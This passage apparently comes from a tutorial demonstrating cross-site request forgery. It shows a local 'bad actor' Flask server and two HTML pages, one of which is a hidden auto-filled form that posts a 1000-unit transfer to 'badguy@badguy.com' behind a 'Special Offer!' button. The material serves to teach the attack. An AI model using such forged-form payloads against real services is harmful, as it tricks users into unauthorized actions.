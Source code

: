 ```javascript
		console.log(m);
		res.send(m);
	}
});

app.listen(5000, function() {
	console.log('Server is live and listening on 5000');
});
```

## Simulating a Bad-actor's server (running on localhost)
Below is the server that a bad actor might run. Note that it is running on a different origin compared to `yourcriticalservice`:
```python
import flask
import os
import requests

app = flask.Flask(__name__)

@app.route('/bget', methods=['GET'])
def servebget():
    return flask.render_template('bget.html')

@app.route('/bpost', methods=['GET'])
def servebpost():
    return flask.render_template('bpost.html')

app.run(host='localhost', port=8000, debug=True)
```


Below are the links that you, the user of `yourcriticalservice` would be directed to interact with:
`bget.html`:
```
<html>
	<a href="http://yourcriticalservice.com:5000/sensitivepage">Click me</a>
</html>
```

`bpost.html`:
```
<html>
	<body>
		<form action="http://yourcriticalservice:5000/sensitiveform", method="POST">
			<input name="units" type="hidden" value="1000"/>
			<input name="recipient" type="hidden" value="badguy@badguy.com">
			<button type="submit" value="submit">Special Offer!</button>
		</form>
	</body>
</html>
```
